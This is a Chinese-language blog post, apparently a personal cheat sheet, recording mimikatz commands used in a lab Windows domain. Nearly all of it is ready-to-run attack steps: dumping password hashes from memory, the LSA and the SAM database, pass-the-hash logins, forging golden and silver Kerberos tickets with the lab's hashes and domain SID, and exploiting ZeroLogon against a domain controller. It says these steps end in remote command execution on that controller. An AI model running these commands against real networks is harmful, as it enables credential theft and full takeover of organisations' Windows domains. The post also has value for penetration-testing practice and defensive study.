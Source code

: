 ```yaml
---
layout: post
title: mimikatz使用命令记录
date: 2020-11-22 17:18:12 +0900
category: windows
---
```

mimikatz地址：[https://github.com/gentilkiwi/mimikatz](https://github.com/gentilkiwi/mimikatz)

参考：

[内网横向移动：Kerberos认证与(哈希)票据传递攻击](https://www.freebuf.com/articles/network/245872.html)

[从mimikatz学Windows本地hash抓取](https://xz.aliyun.com/t/8601)

目录:

#### 1.PTH

```cpp
privilege::debug
sekurlsa::logonpasswords
```
```cpp
privilege::debug
sekurlsa::pth /user:administrator /domain:workgroup /ntlm:aa82c4733abe54954101a3c071563bd5
```
#### 2.黄金票据
```cpp
privilege::debug
lsadump::lsa /patch // 专用于在域控制器上导出用户密码或hash
```

```cpp
kerberos::golden /user:administrator /domain:lee.com /sid:S-1-5-21-3818984818-544466857-344315463 /krbtgt:89d0242fe92b9cee9361dd4c86fc5233 /ticket:ticket.kirbi

kerberos::ptt ticket.kirbi
kerberos::tgt
```
#### 3.白银票据
```cpp
privilege::debug
sekurlsa::logonpasswords
```

```cpp
kerberos::golden /domain:LEE.com /sid:S-1-5-21-3818984818-544466857-344315463 /target:WIN-8U952PQ1T6L.lee.com /rc4:9186eda109780d30ac9cdfda733442ac /service:cifs /user:douser /ptt
```

#### 4.ZeroLogon
```cpp
lsadump::zerologon /target:WIN-8U952PQ1T6L.lee.com /ntlm /null /account:dc$ /exploit
```
#### 5.SAM
```cpp
privilege::debug
token::elevate
lsadump::sam
```
环境:

域服务器 Server2012

域机器:win7 x64

域lee

## 一.PTH

域服务器获取NTLM-Hash值

privilege::debug

sekurlsa::logonpasswords

![1](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/1.png)

找到Administrator的NTLM-Hash值

![2](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/2.png)

域内普通机器通过NTLM-Hash攻击

privilege::debug

sekurlsa::pth /user:administrator /domain:workgroup /ntlm:aa82c4733abe54954101a3c071563bd5

![3](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/3.png)

执行成功会弹出一个cmd窗口，可以远程在域服务器上执行命令

![4](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/4.png)

## 二、黄金票据

privilege::debug

lsadump::lsa /patch // 专用于在域控制器上导出用户密码或hash

在域服务器上执行命令，获得krbtgt的NTLM的Hash值

![5](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/5.png)

在内网机器上执行以下命令，生成ticket.kirbi黄金票据

kerberos::golden /user:administrator /domain:lee.com /sid:S-1-5-21-3818984818-544466857-344315463 /krbtgt:89d0242fe92b9cee9361dd4c86fc5233 /ticket:ticket.kirbi

![6](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/6.png)

kerberos::ptt ticket.kirbi

kerberos::tgt

使用票据启动cmd，就可以执行了

![7](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/7.png)

## 三、白银票据

privilege::debug

sekurlsa::logonpasswords

![8](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/8.png)

![9](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/9.png)

使用域机器普通账户的NTLM-Hash值，不是Administrator的

在域内机器上执行以下命令，生成白银票据

kerberos::golden /domain:LEE.com /sid:S-1-5-21-3818984818-544466857-344315463 /target:WIN-8U952PQ1T6L.lee.com /rc4:9186eda109780d30ac9cdfda733442ac /service:cifs /user:douser /ptt

![10](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/10.png)

## 四、ZeroLogon

lsadump::zerologon /target:WIN-8U952PQ1T6L.lee.com /ntlm /null /account:dc$ /exploit

![11](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/11.png)

## 五、SAM

lsadump::sam

![12](https://raw.githubusercontent.com/LycorisGuard/BlogPic/master/2020-11-22/12.png)
